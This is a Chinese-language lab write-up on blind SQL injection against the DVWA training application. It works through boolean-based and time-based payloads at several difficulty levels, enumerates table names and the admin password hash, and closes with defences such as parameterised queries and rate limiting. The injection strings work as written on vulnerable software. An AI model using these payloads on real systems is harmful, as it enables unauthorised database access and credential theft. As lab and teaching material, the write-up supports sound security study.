

# SQL Injection(Blind)

同样的查询，但页面不回显数据，只告诉你一句 `User ID exists in the database.` 或者 `User ID is MISSING from the database.`

没有回显，就只能问是非题：一次问一个问题，答案就是页面返回的那两个词。这就是盲注的起点。

## 先确认真假能控制页面

```
1' AND '1'='1     → User ID exists in the database.
1' AND '1'='2     → User ID is MISSING from the database.
```




恒真返回存在、恒假返回不存在，说明能通过条件真假影响输出，可以盲注了。

注释符用 `#` 或 `-- `。放 URL 里 `#` 会被浏览器截断，必须写成 `%23`：

```
?id=1' AND 1=1%23&Submit=Submit
```

## 布尔盲注：一位一位问

先问长度，用二分法比一位一位试快得多：

```
1' AND LENGTH(DATABASE())=4#
1' AND LENGTH(DATABASE())>3-- -
1' AND LENGTH(DATABASE())>5-- -
```

返回存在就说明当前库名长度是 4。

再问字符，`SUBSTRING` 一次取一位：

```
1' AND SUBSTRING(DATABASE(),1,1)='d'-- -
1' AND SUBSTRING(DATABASE(),2,1)='v'-- -
```

按这个顺序问下来就是 `dvwa`。每个位置理论上要试 36 次（字母加数字），加上 ASCII 二分能压到 7 次左右：

```
1' AND ASCII(SUBSTRING(DATABASE(),1,1))>100-- -
```

库名拿下之后是同一条路，套进子查询：

```
1' AND (SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())=2-- -
1' AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1))=9-- -
1' AND SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1),1,1)='g'-- -
```

`LIMIT 0,1` 是取第几张表。第一张表名长度 9，是 `guestbook`；要问第二张就把 `0,1` 改成 `1,1`。

字段名、用户名、密码哈希都是同一个套路，换个表名的事。users 表里五个用户，第一个是 `admin`，密码哈希 32 位，`5f4dcc3b...` 那个。


## 时间盲注：连真假都看不见的时候

如果页面不管条件真假都返回同一句话，布尔这条路也断了。这时候用时间当信道：条件成立就让数据库睡三秒。

```
1' AND SLEEP(3)-- -
```

页面明显卡三秒，说明 `SLEEP` 执行了，能注入。

把条件塞进 `IF`：

```
1' AND IF(LENGTH(DATABASE())=4,SLEEP(3),0)-- -
1' AND IF(SUBSTRING(DATABASE(),1,1)='d',SLEEP(3),0)-- -
1' AND IF(ASCII(SUBSTRING(DATABASE(),1,1))=100,SLEEP(3),0)-- -
```

数据量一大就很难受。32 位哈希要问 32 个字符，每个字符最坏 36 次，一次 3 秒，光一条密码就是好几个小时。所以真实场景里时间盲注基本都交给 sqlmap，手工只用来验证注入点是否成立。

## Medium

页面变成下拉框，请求变成 POST，特殊字符被转义。抓包后请求体是这样：

```
POST /dvwa/vulnerabilities/sqli_blind/ HTTP/1.1
Cookie: security=medium; PHPSESSID=xxxx

id=1&Submit=Submit
```

数字型，不用闭合引号。改请求体的时候注意 URL 编码，空格是 `%20`：

```
id=1 AND 1=1&Submit=Submit
id=1%20AND%201=2&Submit=Submit
```

前者 exists、后者 missing，注入成立。

后面照旧，只是单引号进了请求体容易被吃掉，遇到 `'d'` 不生效就换 ASCII：

```
id=1%20AND%20ASCII(SUBSTRING(DATABASE(),1,1))=100&Submit=Submit
```

时间盲注同理：

```
id=1 AND IF(ASCII(SUBSTRING(DATABASE(),1,1))=100,SLEEP(3),0)
```

## High

High 把参数存进 Session，页面拆成两步提交，SQL 末尾加了 `LIMIT 1`。Session 只是换了个传参位置，Burp 抓的还是同一个请求，改 `id` 就行。`LIMIT 1` 照例用注释符切掉：

```
1' AND 1=1-- -
```

`-- -` 把后面的 `' LIMIT 1` 注释掉，剩下的和 Low 一样。

## Impossible 为什么打不进去

和上一节的 SQL 注入同一个原因：预编译加 `bind_param("i", $id)`，输入永远只是值。另外还加了 Anti-CSRF token 和输入类型校验。

## 我卡住的地方

- `#` 直接写在 URL 里会失效，第一次试了半天以为过滤了，其实是浏览器把 `#` 后面当锚点，请求根本没发出去。看到 `%23` 才反应过来。
- `LIMIT 0,1` 里的 `0` 是偏移不是序号，改成 `1,1` 才是第二张表。这个记错过一次。
- 时间盲注第一次只试了 `SLEEP(3)`，看到慢了三秒就以为成了，其实还得用 `IF` 包条件才算真的能用。

## 怎么修

同上一节，参数化查询是主因。盲注之所以存在，是因为"存在/不存在"这两种响应本身泄露了一位信息。所以除了修注入点，还可以：

1. 统一提示。查到和没查到返回一模一样的页面、一样的长度。
2. 关掉 SQL 报错，别让长度和时间出现可测的差异。
3. 对同一 IP 的查询做频率限制。盲注要靠成千上万次请求，限速直接让它跑不完。
